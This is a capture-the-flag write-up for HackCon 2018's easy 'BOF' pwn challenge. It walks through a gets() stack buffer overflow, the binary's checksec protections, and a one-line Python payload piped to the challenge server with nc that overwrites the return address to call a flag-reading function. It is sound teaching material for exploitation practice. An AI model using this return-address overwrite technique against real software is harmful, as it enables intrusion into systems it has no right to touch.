 ```yaml
---
author: Ringr0p
layout: writeup
tags: [ ctf, zenhack ]
challenge:  BOF
ctf: HackCon'18
date: "2018-08-17"
categories: [pwn]
---
```

  - CTF NAME: [Hackcon 2018](https://hackcon.in/)
  - Category: PWN
  - Binary: [vuln](http://ringr0p.github.io/binary/hackcon2018-vuln)
  - Difficulty: Easy

This challenge was the easiest, of the pwn challenges in the [Hackcon CTF 2018](https://hackcon.in/).

Let's open the binary and it says:

```
  Welcome, You know what to do. So go get the flag.

Hello
>>>
```
Obviously, the vulnerability is a buffer overflow, as it's suggested from the challenge's name. Infact, if we look in the code, we can see a <b>gets</b> function. This function is very dangerous, because don't control the lenght of the input, and put him into a limitated buffer.

Before thinking at what we have to do, we have to check the security of the binary. I personally use "checksec" to have an overall picture of the situation, quickly:

```
  Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segment
```

Opening the target binary with Radare2, we can also see that at 0x400766 there's a function <b>CallMeMaybe()</b> that open a file "vulnflag.txt". Than our objective is to overwrite the return address of the main() function, with the CallMeMaybe function.

This is easy because the binary is not PIE, and there are no canary on the stack.

Then the exploit is simple and that's the flag:

```code
python -c 'print ("a"*40 + "\x66\x07\x40\x00\x00\x00")' | nc 139.59.30.165 8700
```

![placeholder](https://ringr0p.github.io/images/hackcon2018-bof-flag.jpg)

N.B: I had to pack the CallMeMaybe() address to 64 bit address, because it was an ELF64 binary! Using only 32 bit address didn't work
